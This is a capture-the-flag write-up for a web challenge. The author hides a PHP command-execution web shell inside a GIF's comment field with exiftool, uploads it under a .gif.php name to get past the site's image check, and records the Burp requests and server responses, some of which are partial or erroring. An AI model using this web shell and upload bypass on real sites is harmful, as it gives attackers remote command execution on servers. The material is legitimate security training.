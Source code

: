 # Unsanitary

## Web: 500 Points

## Challenge

My friend thinks his GIF file sharing website is secure. It's still under construction and needs a lot of work, but he wants to know if it's vulnerable. Can you hack into his website?

[ [Start](http://challenges.laptophackingcoffee.org:6464/) ]

Note: The server resets to default every 30 minutes. All progress will be lost

## Solution

https://www.youtube.com/watch?v=nNB9XlRfvzw
https://superuser.com/questions/556315/gif-image-exif-tags
```
exiftool -comment="This is a comment!" Sample.gif
```

```
$ exiftool -comment="<h1>hello world<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" cat-shell.gif 

1 image files updated
```

http://challenges.laptophackingcoffee.org:6464/images/cat-shell.gif.php
```
Warning: Unexpected character in input: '' (ASCII=3) state=0 in /var/www/app/images/cat-shell.gif.php on line 143

Parse error: syntax error, unexpected '=' in /var/www/app/images/cat-shell.gif.php on line 143
```

exiftool:
```
$ exiftool untitled.gif.php 
ExifTool Version Number         : 11.88
File Name                       : untitled.gif.php
Directory                       : .
File Size                       : 189 bytes
File Modification Date/Time     : 2020:07:14 22:44:01-06:00
File Access Date/Time           : 2020:07:14 22:47:34-06:00
File Inode Change Date/Time     : 2020:07:14 22:47:16-06:00
File Permissions                : rw-rw-r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 1
Image Height                    : 1
Has Color Map                   : Yes
Color Resolution Depth          : 1
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : <h1>hello world<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>
Image Size                      : 1x1
Megapixels                      : 0.000001
```

burpsuite
```
POST / HTTP/1.1
Host: challenges.laptophackingcoffee.org:6464
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenges.laptophackingcoffee.org:6464/
Content-Type: multipart/form-data; boundary=---------------------------36969556719905097901151866452
Content-Length: 424
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------36969556719905097901151866452
Content-Disposition: form-data; name="upfile"; filename="untitled.gif.php"
Content-Type: application/x-php

GIF89a
```

https://github.com/tennc/webshell/blob/master/php/gif.php
https://github.com/tennc/webshell/blob/master/php/gif.php

```
$ exiftool -comment="<h1>hello world<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" cat-shell.gif 

1 image files updated
```

isolate what the website is checking

test.gif (empty file)
```
Image type not supported, GIF files only!
```

file with GIF87a, with no other content. test.txt:
```
Image type not supported, GIF files only!
```

file with GIF87a, with no other content. test.gif:
```
Image type not supported, GIF files only!
```

2x2 gif made with GIMP:
```
Path: images/test.gif, image upload successful!
```

Visit url and it displays the image: 

http://challenges.laptophackingcoffee.org:6464/images/test.gif


2x2 gif with .php extension
```
Path: images/test.gif.php, image upload successful!
```

http://challenges.laptophackingcoffee.org:6464/images/test.gif.php
```
GIF87a����,;
```


```
$ cat test.gif.php
GIF89a����,
           ;<?phpinfo();?>
```